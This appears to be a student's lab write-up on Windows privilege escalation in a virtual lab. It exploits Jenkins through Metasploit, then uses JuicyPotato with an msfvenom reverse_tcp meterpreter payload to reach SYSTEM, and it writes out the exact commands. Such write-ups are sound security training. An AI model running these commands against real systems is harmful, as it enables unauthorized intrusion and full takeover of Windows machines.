 # Windows Privilege Escalation

## Objective: 
Windows Privilege Escalation, leveraging tools and techniques to gain unauthorized access to system-level resources on a Windows Server machine within a controlled environment. The lab commences with gaining a limited shell via exploiting Jenkins on port 8484, followed by escalating privileges using Juicy Potato. This project provides hands-on experience in exploiting service vulnerabilities, working with Meterpreter shell, and privilege escalation techniques. The ultimate objective is to attain an NT AUTHORITY\SYSTEM level access, thereby demonstrating the vulnerabilities and the importance of securing Windows systems.

## Walkthrough:

### Part 1

- I initiated a Nmap scan within a specified IP range using the command **nmap 10.0.2.0/25**. Given that my host IP is 10.0.2.6, I deduced that the Windows VM IP is 10.0.2.8 with multiple open ports.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp1.png" alt="">
</p>

- I noticed that port 8484 wasn’t displayed as open, prompting me to check using the command **"nmap -p 8484 -sV 10.0.2.8"**. I found it open and identified the running service to be **Jetty winstone-2.8**, an HTTP service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP2.png" alt="">
</p>

- With this information, I accessed Jenkins by entering the IP address and port number **10.0.2.8:8484** in Firefox.

  <p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp3.png" alt="">
</p>

- I then switched to the terminal and entered **MSFconsole** to search for Jenkins exploits. Following the instructions, I selected **exploit number 6**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP4.png" alt="">
</p>

- Setting options for this exploit, I configured the username and password to **vagrant**, defined the rhost as 10.0.2.8 (target IP), set the target URI based on the Firefox URL **http://10.0.2.8:8484/**, defined the srvhost as my host IP (10.0.2.6), and assigned the rport as 8484. Executing the **run** command opened the meterpreter session 1 as NT Authority\local service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.2.png" alt="">
</p>

- I verified if the SeImpersonatePrivilege was enabled, and it was.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP6.png" alt="">
</p>

- Next, I uploaded **JuicyPotato** to the target machine using the meterpreter command **upload /home/kali/Downloads/JuicyPotato.exe**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.2.png" alt="">
</p>

- A quick **"ls"** command confirmed its presence on the machine with **rwx** permissions across all user groups.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp8.png" alt="">
</p>

### Part 2

- The task began with the creation of a 64-bit Windows meterpreter using MSFvenom. In the Kali terminal, the command **“msfvenom -l payloads | grep windows”** was issued to display a list of Windows payloads. I opted for **“windows/x64/meterpreter/reverse_tcp”**.
- To construct the payload, the command **“msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.6 LPORT=4445 -f exe > windyprivesc.exe”** was executed.
- The subsequent step was to transfer the crafted file to the target machine. Within the meterpreter environment, this was achieved using the **“upload windyprivesc.exe”** command.
- To proceed, the generic multi-handler exploit was required. After launching MSFconsole, I searched for multi handlers. I chose option 5, recognized as a generic payload handler, and configured the payload, LHOST, and LPORT accordingly.
- The core task was to run the exploit within the directory containing both JuicyPotato and the windyprivesc.exe file on the target VM. This operation was performed inside a shell in meterpreter, using the command **“C:\Program Files\jenkins\Scripts>.\JuicyPotato.exe -t * -p windyprivesc.exe -l 4445”**.
- Once redirected to the multi handler and upon gaining access to the shell, the command **“whoami /priv”** was run. The resultant display showed all enabled privileges. To conclude the assignment, I echoed my name into the terminal for verification purposes.

